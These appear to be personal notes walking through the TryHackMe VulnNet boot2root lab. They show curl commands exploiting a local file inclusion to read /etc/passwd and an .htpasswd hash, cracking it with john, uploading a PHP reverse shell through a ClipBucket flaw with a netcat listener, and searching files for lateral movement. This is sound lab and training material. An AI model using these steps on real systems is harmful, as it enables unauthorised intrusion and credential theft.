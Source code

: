 
2025-01-30 22:44

Source: #Boot2root

After adding the IP to `/etc/hosts`, we do some directory busting which leads us nowhere so we [[crawling a website]] to find links 

Checking the source code of the main page reveals 2 JavaScript imports at the end of the code
- The analysis of the first script will reveal the following subdomain - `http://broadcast.vulnnet.thm`
- The second script reveals that `index.php` accepts a `referer` parameter - `http://vulnnet.thm/index.php?referer=`
#### LFI 

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let’s check the other information.

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion ([[LFI]])
```sh
curl -s http://vulnnet.thm/?referer=/etc/passwd
```

Let’s check in the Apache configuration files 
```sh
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
```

from the above command we get to know that the password file is located in  `/etc/apache2/.htpasswd`
```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

the username is developers and the `md5crypt` hash is to the right
use john to crack the hash 
```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
### Revshell

- on accessing the website `broadcast.vulnnet.thm` we see that it uses `clipbucket 4.0`
- This version has a exploit available on `searchsploit`, we can upload a file without authentication
Follow the instructions in the exploit and upload a php revshell 

Open a listener (`nc -nlvp 4444`) and browse the uploaded shell `http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1620367741f6065c.php`.
### Lateral movement

- Lateral movement from www-data > server-management
Checking the `/home` folder, as well as the `/etc/passwd` file will confirm the existence of a `server-management` user.

Let’s check what files are owned by this user [[Find]]
```
find / -type f -user server-management -exec ls -l {} + 2>/dev/null
```

this user owns a zip file in the `/var/backup` directory 




### References
[TryHackMe | VulnNet](https://tryhackme.com/r/room/vulnnet1)

walktrough
[TryHackMe-VulnNet - aldeid](https://www.aldeid.com/wiki/TryHackMe-VulnNet)
[VulnNet Tryhackme Writeup. By Shamsher khan This is a Writeup of… | by Shamsher khan | InfoSec Write-ups](https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959)
[TryHackMe — Vulnnet WriteUp/Walkthrough | by Arnav singh | Medium](https://medium.com/@arnavsinghinfosec/tryhackme-vulnnet-writeup-walkthrough-3b7846b24416)